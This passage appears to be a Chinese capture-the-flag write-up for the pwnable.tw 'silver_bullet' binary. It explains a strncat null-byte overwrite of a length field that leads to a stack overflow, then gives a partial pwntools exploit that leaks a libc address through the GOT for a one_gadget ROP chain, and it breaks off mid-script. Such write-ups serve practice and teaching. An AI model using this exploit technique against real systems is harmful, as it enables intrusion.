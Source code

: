 ```c
    return puts("You need create the bullet first !");
  if ( *((_DWORD *)dest + 12) > 0x2Fu )
    return puts("You can't power up any more !");
  printf("Give me your another description of bullet :");
  read_input(s, 48 - *((_DWORD *)dest + 12));
  strncat(dest, s, 48 - *((_DWORD *)dest + 12));
  v3 = strlen(s) + *((_DWORD *)dest + 12);
  printf("Your new power is : %u\n", v3);
  *((_DWORD *)dest + 12) = v3;
  return puts("Enjoy it !");
}
```
我尝试运行程序，输入几个垃圾数据，发现在`power_up`中，能覆盖长度，从而得到一个很大的数，从而在beat中正常退出程序执行ROP。
所以漏洞点在`power_up`中。这里在`strncat`在拼接字符串后，会在最后加”\\x00“进行截断，可以覆盖大小，产生栈溢出。

## exp
```python 
from pwn import *
from LibcSearcher import LibcSearcher

leak = lambda name,addr: log.success('{0} addr ---> {1}'.format(name,hex(addr)))
context.log_level="DEBUG"
context.arch="amd64"

local=0
binary='./silver_bullet'
#gdb.attach(p)
if local:
	p=process(binary)
else:
	p=remote('chall.pwnable.tw',10103)

elf = ELF(binary,checksec=False)
libc = ELF('./libc_32.so.6',checksec=False)

puts_plt = elf.plt['puts']
read_got = elf.got['read']
#gdb.attach(p)
one = [0x3a819, 0x5f065, 0x5f066]

#create
p.sendlineafter('Your choice :',"1")
payload='a'*47
p.sendlineafter('Give me your description of bullet :',payload)

#power up
p.sendlineafter('Your choice :',"2")
payload='a'
p.sendlineafter('Give me your another description of bullet :',payload)

p.sendlineafter('Your choice :',"2")
payload='\xff'*7+p32(puts_plt)+p32(0x8048954)+p32(read_got)
p.sendlineafter('Give me your another description of bullet :',payload)

p.sendlineafter('Your choice :',"3")
read_addr = u32(p.recvuntil('\xf7')[-4:])
leak('read',read_addr)
libcbase= read_addr-libc.sym['read']
one_gedget = libcbase+one[0]

p.sendlineafter('Your choice :',"1")
payload='a'*47
```